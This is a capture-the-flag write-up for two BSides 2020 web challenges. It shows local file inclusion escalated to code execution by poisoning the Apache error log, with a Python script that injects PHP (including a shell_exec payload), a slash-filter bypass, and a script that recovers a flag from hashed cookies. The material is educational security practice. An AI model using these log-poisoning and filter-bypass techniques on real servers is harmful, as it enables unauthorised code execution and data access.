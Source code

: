 # Log
## Description

GET the right file.
Author: Ph03N1X
[Link](http://3.7.251.179/) 

## Solution
#### Recon
First, we opened the website, there we given lots of links. But when we clicked on most of the link, we were greeted with an error page. After some observation, we realized that there is a link that's different with another link.

![](/home/kerupuksambel/CTF/ctf-writeup/BSides_2020/img/Log_1.png) 

Clicking on that link would redirect us to a different page :

![](/home/kerupuksambel/CTF/ctf-writeup/BSides_2020/img/Log_2.png).

We also learned some things in this phase :
- There are some files that we can't get (.htaccess would return 403 Forbidden)
- The server was run in Apache (we know it from error message that was triggered when we requested a non-existent file )

#### LFI
After that, we spent some times figuring what to do next. With the hint in the title (_**Log**_) and the info that the server run in Apache, we assumed that we have to read the log file. So... LFI perhaps?

We tried the word 'file' as parameter to include file, and it works!

 ![](/home/kerupuksambel/CTF/ctf-writeup/BSides_2020/img/Log_3.png) 
 
#### Journey to RCE

Okay, so far we can do LFI, but no sign of flag here... So we assumed that we have to escalate our LFI to RCE. Doing a data:// wrapper wasn't working because of _allow_url_include_ config was set to 0. 

Finally, we tried a RCE by using Apache log file. There are two types of Apache log file : **access.log** (For logging successful requests) and **error.log** (For logging failed requests). But, when we include access.log, we were failed because the file isn't exist. So, we tried to include error.log and it worked. 

![](/home/kerupuksambel/CTF/ctf-writeup/BSides_2020/img/Log_4.png) 

#### Triggering error.log

So next we have to trigger error.log to log our failed request. We can do it by requesting .htaccess. But how to log our crafted request?

Turns out, it was possible to request .htaccess**[ABRITRARY_STRING]** to trigger the logging. So we successfully logged our crafted request. 

Here's a script that automated our request.

	import requests
	link = "http://3.7.251.179/"
	
	log = 'http://3.7.251.179/click-here_00.php?file=/var/log/apache2/error.log'
	def gs(pl):
		return link + '.htaccess' + pl
	
	payload = '<%3Fphp echo "PAYLOAD HERE" %3F>'
	r = requests.get(gs(payload))
	r2 = requests.get(log)
	print(r2.text)

#### Filter Bypassing

Yay! We can do LFI to error.log, so we can do a RCE...

...right?

It's not that easy. The system seems to blocked some strings so we can't do a RCE easily.

First, obviously we tried to executed some script to execute `shell_exec`. So we tried executing `<%3Fphp echo shell_exec("id") %3F>` as our payload with the script. And the result?

> [authz_core:error] [pid 84] [client 114.4.219.126:54871] AH01630: client denied by server configuration: /var/www/html/.htaccess<?php echo shell_exec("id"); ?>

Oops! Seems that we can't do `shell_exec` here.

Let's try another approach. How if we do a path traversal to find the flag with scandir() function?  We tried `<%3Fphp var_dump(scandir("/")); %3F>` but it doesn't work. So we bypassed the "/" filter by using chr(47) and it worked.

Long story short, after some path traversals, we found an interesting file in `/f/l/a/g/somethingUneed.txt`. And including it in our LFI will return our flag.

![](/home/kerupuksambel/CTF/ctf-writeup/BSides_2020/img/Log_5.png) 

**Flag** :  `BSDCTF{L0cal_f1L3_InClu$10N_1$_v3RY_P015On0u$} `

**Disclaimer** : Some of the exploit in this writeup doesn't work in the writeup making phase.


# Robot Master
## Description

You know what to do, collect them all.
Author: Ph03N1X
[Link](http://15.206.202.26/) 

## Solution
#### Recon
As the title, the first thing we saw is the `robots.txt` file. We found an interesting file in /cookie.php
![](/home/kerupuksambel/CTF/ctf-writeup/BSides_2020/img/Robot_1.png) 

Opening `cookie.php` revealing us some interesting cookies.

![](/home/kerupuksambel/CTF/ctf-writeup/BSides_2020/img/Robot_2.png) 

#### Cookie Unifying
Trying to google the value of `Our_Favourite_Cookie` tells us that the value is actually a SHA256 hash of 'O'. Then, when we change the value of `Piece`, we got a different hash. Realizing that this maybe is a SHA256 of an individual letter of a flag, we tried to automate the process. Here's the script we craft to request every hash piece of the flag.

	import requests
	import hashlib
	import string
	
	link = 'http://15.206.202.26/cookie.php'
	
	poss = string.printable
	table = {}
	
	flag = ""
	
	for _ in poss:
		sha = hashlib.sha256(_.encode()).hexdigest()
		table[_] = sha
	
	for i in range(50):
		cookie = {
			"Piece" : str(i),
			"Our_Fav_Cookie" : "crot"
		}
		r = requests.get(link, cookies=cookie)
	
		d = (dict(r.cookies))
		for t in table:
			if table[t] == d["Our_Fav_Cookie"]:
				flag += t
	
		print(flag)

After running the script, we realized there's a flag-like string on the result, 

>O
OF
OFQ
OFQP
OFQPG
OFQPGS
OFQPGS{
OFQPGS{P
OFQPGS{P0
OFQPGS{P00
OFQPGS{P00x
OFQPGS{P00x1
OFQPGS{P00x13
OFQPGS{P00x135
OFQPGS{P00x135_
OFQPGS{P00x135_n
OFQPGS{P00x135_ne
OFQPGS{P00x135_ne3
OFQPGS{P00x135_ne3_
OFQPGS{P00x135_ne3_o
OFQPGS{P00x135_ne3_o3
OFQPGS{P00x135_ne3_o35
OFQPGS{P00x135_ne3_o35g
OFQPGS{P00x135_ne3_o35g_
OFQPGS{P00x135_ne3_o35g_c
OFQPGS{P00x135_ne3_o35g_cy
OFQPGS{P00x135_ne3_o35g_cy4
OFQPGS{P00x135_ne3_o35g_cy4p
OFQPGS{P00x135_ne3_o35g_cy4p3
OFQPGS{P00x135_ne3_o35g_cy4p3_
OFQPGS{P00x135_ne3_o35g_cy4p3_7
OFQPGS{P00x135_ne3_o35g_cy4p3_70
OFQPGS{P00x135_ne3_o35g_cy4p3_70_
OFQPGS{P00x135_ne3_o35g_cy4p3_70_p
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3p
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3px
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3px}
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3px}O
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3px}OO
OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3px}OOO

Shifting the string with Caesar cipher with N = 13 giving us our flag.

**Flag** : `BSDCTF{C00k135_ar3_b35t_pl4c3_70_ch3ck}`